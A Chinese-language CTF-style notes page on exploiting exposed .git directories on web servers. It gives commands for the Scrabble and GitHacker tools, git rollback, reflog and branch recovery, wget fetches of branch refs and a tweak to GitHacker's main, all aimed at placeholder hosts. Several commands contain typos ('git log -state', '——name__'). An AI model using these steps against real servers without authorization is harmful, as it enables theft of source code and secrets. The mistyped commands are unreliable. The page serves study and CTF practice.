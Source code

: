 #### Git泄露

> 开发过程中遗忘.git文件，错误地提交到服务器，导致通过此文件获取往期源码

1. 常规利用

   利用Scrabble工具直接获得源码：[工具地址](https://github.com/denny0223/scrabble)

   ```shell
   ./scrabble http://target.com/
   ```

2. Git回滚获取源码

   1. Git覆盖

      ```shell
      echo “new content” > doc.php
      ```

      ```shell
      git add doc.php
      ```

      ```shell
      git commit -m "[version_name]"
      ```

   2. Git回滚

      > 其中，HEAD表示当前版本，而HEAD^表示上一版本

      ```shell
      git reset --hard HEAD^
      ```

      1. 查看每个Commit修改了哪些文件

         ```shell
         git log -state
         ```

      2. 比较在当前版本与想查看的Commit之间的变化

         ```shell
         git diff HEAD commit -id
         ```

   3. 隐藏的Git分支

      > Flag可能并不在master的分支中，尝试还原其他分支的代码

      利用GitHacker查看Git提交记录，分支移动记录：[工具地址](https://github.com/WangYihang/GitHacker)

      ```shell
      python GitHacker.py [http://ip:port/.git/]
      ```

      进入本地生成的文件夹，执行，查询得到master分支信息

      ```shell
      git log --all
      ```

      ```shell
      git branch -v
      ```

      查看checkout记录，获知提交记录，分支移动信息

      ```shell
      git reflog
      ```

      下载所需分支的Head信息，保存在本地同名同目录下

      ```shell
      wget http://ip:port/.git/refs/heads/[target_branch]
      ```

      修改GitHacker.py，使用fixmissing函数，检测Head下分支缺失的文件并恢复

      ```python
      if ——name__ == "__main__":
          # main()
          base_url = complete_url("http://ip:port/.git/")
          temp_path = replace_bad_char(get_prefix(base_url))
          fixmissing(base_url, temp_path)
      ```